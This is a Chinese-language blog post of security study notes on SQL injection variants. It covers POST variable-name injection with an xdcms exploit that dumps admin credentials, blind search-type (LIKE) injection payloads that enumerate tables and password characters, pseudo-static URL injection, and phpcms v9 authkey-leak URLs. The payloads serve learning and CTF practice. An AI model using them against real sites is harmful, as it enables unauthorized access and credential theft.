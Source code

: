 ```yaml
---
layout:     post
title:      Web笔记（六）SQL注入之其他注入
subtitle:   这个系列是整理学习安全的笔记，包括Web和PWN的一些知识。本章是补充常见数据库本身的注入以外的SQL注入。
date:       2020-11-29
author:     HouKC
header-img: img/post-bg-rwd.jpg
catalog:    true
tags:
    - CTF
    - web
    - 网络安全
    - 学习笔记
    - SQL注入
---
```




## 0x01 变量名注入

有时候可能会在奇奇怪怪的地方可以注入，如post变量名可能出现如下，有点像字典一样的变量：

```http
POST / HTTP 1.0
...
...

fields[truename]=Bob
```

或者

```http
POST / HTTP 1.0
...
...

fields%5Btruename%5D=Bob
```

例如：xdcms某版本的修改会员资料处的姓名，就是这种注入漏洞，exp：

```
%60%3D%28select%20group_concat%28username%2C0x3a%2Cpassword%29%20from%20c_admin%20where%20id%3D1%29%23

（url解码为：`=(select group_concat(username,0x3a,password) from c_admin where id=1)#）
```

把上面这一段放在fields%5Btruename%5D的%5D前面，也就是如下

```http
POST / HTTP 1.0
...
...

fields%5Btruename%60%3D%28select%20group_concat%28username%2C0x3a%2Cpassword%29%20from%20c_admin%20where%20id%3D1%29%23%5D
```
自行解一下码方便看，如下：
```http
POST / HTTP 1.0
...
...

fields[truename`=(select group_concat(username,0x3a,password) from c_admin where id=1)#]
```
即可形成攻击。



## 0x02 搜索型注入

- like
- 通配符 \*
- sql通配符 %%
- select * from news where id='%like $id %'

```
# 判断是否存在搜索型输入
id=2%' and 1=1 and '%'='     返回和单独输入2是一样的页面
id=2%' and 1=2 and '%'='     返回不同

# 判断是数据库类型
id=2%' and(select count(\*) from mssysaccessobjects)>0 and '%'='  //返回正常，access数据库

# 判断表名是否存在
id=2%' and(select count(\*) from admin_user)>0 and '%'='       //返回正常，存在admin_user表

# 判断字段名是否存在
id=2%' and(select count(username) from admin_user)>0 and '%'='   //返回正常，存在username字段
id=2%' and(select count(passeword) from admin_user)>0 and '%'='  //返回正常，存在password字段

# 判断字段长度
id=2%' and(select top 1 len(username) from admin_user)>4 and '%'='   //返回正常，username长度大于4
id=2%' and(select top 1 len(username) from admin_user)=5 and '%'='  //返回正常，username长度等于5

# 判断具体数据的单个字符
id=2%' and(select top 1 asc(mid(password,1,1))from admin_user)=55 and '%'='  //返回正常，则对应位置的ascii编码是对的，否则错误
```



## 0x03 伪静态注入

```
http://xx.com/xx.php/index/ndetails/class/news/htmls/moving/id/1131.html
http://xx.com/xx.php/index/ndetails/class/news/htmls/moving/id/1131
```

注入点在上面1131后面，也就是html文件名，如下：

```
http://xx.com/xx.php/index/ndetails/class/news/htmls/moving/id/1131' and 1=1.html
```

常出现此注入的框架：

- aspcms
- phpweb
- thinkphp

还有其他类型的伪静态如：

```
http://xxx.com/x_detail_id_1234.html
```

在网站后台可能相当于

```
http://xxx/com/x/detail.php?id=1234
```



## 0x04 phpv9 authkey注入

利用exp爆出authkey

```
api.php?op=get_menu&act=ajax_getlist&callback=aaaaa&parentid=0&key=authkey&cachefile=..\..\..\phpsso_server\caches\caches_admin\caches_data\applist&path=admin
```

或者以下

```
/phpsso_server/index.php?m=phpsso&c=index&a=getapplist&auth_data=v=1&appid=1&data=662dCAZSAwgFUlUJBAxbVQJXVghTWVQHVFMEV1MRX11cBFMKBFMGHkUROlhBTVFuW1FJBAUVBwIXRlgeERUHQVlIUVJAA0lRXABSQEwNXAhZVl5V
```

即在目标网站根目录下输入/phpsso...全部内容，然后看返回的结果中包含一段auth_key和http链接，将其填充到phpv9 auth_key.php中对应的位置去，然后搭建本地php网站环境，将该文件放在网站根目录下，然后访问本地该文件，对本地该文件访问进行注入即可，相当于本地该文件作为中间人。

